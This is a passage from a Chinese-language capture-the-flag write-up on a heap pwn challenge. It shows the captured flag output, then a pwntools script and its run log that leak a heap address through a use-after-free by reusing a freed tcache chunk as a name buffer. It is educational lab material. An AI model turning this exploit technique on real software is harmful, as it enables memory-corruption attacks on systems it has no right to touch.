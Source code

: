 ```bash
Name: (null)
$ cat /home/chal/flag.txt
flag{https://www.youtube.com/watch?v=CUSUhXqThjY}
```

## 同場加映

### 如何用UAF leak heap address?
主要的大方向是設法讓free的chunk進入tcache，這樣的話他就會儲存chunk address的info，我們再利用他沒有設為null的UAF漏洞，把他讀出來
```python
register(0)
register(1)
register(2)

delete(0)
delete(1)

set_name(2, 0x18, b'a')
trigger_event(2)
r.recvuntil(b'Name: ')
leak_heap = u64(r.recv(6).ljust(0x8, b'\x00'))
heap_base = leak_heap - 0x261
log.success(f'Leak heap address = {hex(leak_heap)}')
log.success(f'Heap base address = {hex(heap_base)}')
```

```bash
$ python exp.py
[+] Starting local process './chal': pid 5092

[+] Leak heap address = 0x564bd16ca261
[+] Heap base address = 0x564bd16ca000
[*] Switching to interactive mode

EVENT: get event named "Default Event"!
Invalid command
1. register entity
2. delete entity
3. set name
4. trigger event
choice: $
```

* 這一連串的command意思是他先註冊三個entity
    ![圖片](https://hackmd.io/_uploads/S1kJGysSa.png)
* Delete 前兩個entiti的時候，第一個8 bytes是next free chunk address，第二個8 bytes是key，此時我們就可以想辦法把這個heap address leak出來，從這邊可以看得出來
    ![圖片](https://hackmd.io/_uploads/Hky5fJira.png)
* 設定entity 2的name，要加這一段的原因是它會malloc一個0x20的chunk，此時他會從tcache中找，也就是直接找到==0x55e5a806b2e0==，而他在free的時候並沒有把chunk的內容洗掉，所以裡面還是會有chunk address，所以從下面的結果來看，entity 2的name已經指向==0x000055e5a806b2e0==，而這個地址的東西沒有洗掉，所以我們可以用trigger event的printf，leak出其中的內容
    ![圖片](https://hackmd.io/_uploads/HkYmVkjBT.png)
* 此時我們就可以把接收到的address，和vmmap中得到的heap base address扣掉拿到offset之後做後續的利用
    ![圖片](https://hackmd.io/_uploads/BkcoVksST.png)
    ![圖片](https://hackmd.io/_uploads/BkKZBkoST.png)
    ![圖片](https://hackmd.io/_uploads/SJG7rJjHT.png)
